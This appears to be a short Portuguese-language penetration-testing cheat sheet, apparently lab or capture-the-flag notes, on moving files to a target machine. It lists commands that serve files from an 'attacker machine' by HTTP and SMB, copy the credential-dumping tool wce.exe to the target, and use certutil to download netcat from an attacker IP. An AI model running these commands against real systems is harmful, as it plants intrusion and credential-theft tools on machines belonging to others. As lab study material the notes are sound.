 ## Servidor web
```bash
python3 -m http.server 80
```
## SMB Client
```bash
# Iniciar o servidor na maquina atacante
python3 /opt/impacket/examples/smbserver.py -smb2support lord /tmp 

# Copiar arquivos na máquina alvo
copy \\10.10.14.8\lord\wce.exe .
```

Utilizando o Certutil:
```powershell
certutil -urlcache -f http://10.10.14.2:81/nc.exe %TEMP%/nc.exe
```
